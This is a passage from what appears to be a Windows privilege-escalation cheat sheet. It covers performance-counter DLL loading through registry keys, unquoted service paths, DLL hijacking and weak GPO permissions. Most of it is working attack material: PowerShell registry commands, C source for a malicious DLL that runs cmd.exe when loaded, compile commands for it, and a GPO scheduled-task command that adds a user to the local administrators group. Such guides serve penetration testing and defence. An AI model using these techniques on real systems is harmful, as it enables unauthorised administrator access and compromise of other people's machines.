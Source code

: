 ```
New-ItemProperty -Path "HKLM:$($ServiceKey)" -Name "Open" -Value "OpenPerfData" -PropertyType "String" -Force | Out-Null
Write-Host "[*] Create 'Collect' value"
New-ItemProperty -Path "HKLM:$($ServiceKey)" -Name "Collect" -Value "CollectPerfData" -PropertyType "String" -Force | Out-Null
Write-Host "[*] Create 'Close' value"
New-ItemProperty -Path "HKLM:$($ServiceKey)" -Name "Close" -Value "ClosePerfData" -PropertyType "String" -Force | Out-Null

Read-Host -Prompt "Press any key to continue"

Write-Host "[*] Cleanup"
Remove-ItemProperty -Path "HKLM:$($ServiceKey)" -Name "Library" -Force
Remove-ItemProperty -Path "HKLM:$($ServiceKey)" -Name "Open" -Force
Remove-ItemProperty -Path "HKLM:$($ServiceKey)" -Name "Collect" -Force
Remove-ItemProperty -Path "HKLM:$($ServiceKey)" -Name "Close" -Force
[Microsoft.Win32.Registry]::LocalMachine.DeleteSubKey($ServiceKey)
```
Finally, you can query Perfomance Counters_ using WMI (_Windows Management Instrumentation_) to trick the RPC Endpoint Mapper service into loading our Performace DLL. More info here: [_WMI Performance Counter Types_](https://docs.microsoft.com/en-us/windows/win32/wmisdk/wmi-performance-counter-types).
```
Get-WmiObject -List | Where-Object { $_.Name -Like "Win32_Perf*" }
```
### Unquoted Service Path 
```
1\. Place Unquoted.exe in ‘C:\\Program Files\\Unquoted Path Service’.
2\. Open command prompt and type: sc start unquotedsvc
```
### DLL Hijacking
Compile a malicious dll:
```
- For x64 compile with: "x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll"
- For x86 compile with: "i686-w64-mingw32-gcc windows_dll.c -shared -o output.dll"
```
Content of windows_dll.c:
```
#include <windows.h>
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k whoami > C:\\Windows\\Temp\\dll.txt");
        ExitProcess(0);
    }
    return TRUE;
}
```
Import the malicious DLL in a PATH directory, the service binary directory or your current directory if the DLL is not found and restart the service.
## GPO
### Weak GPO permissions
Create immediate scheduled task through GPO:
```
New-GPOImmediateTask -TaskName evilTask -Command cmd -CommandArguments "/c net localgroup administrators spotless /add" -GPODisplayName "Misconfigured Policy" -Verbose -Force
```
## Printers 
https://pentestlab.blog/tag/privilege-escalation/page/3/  
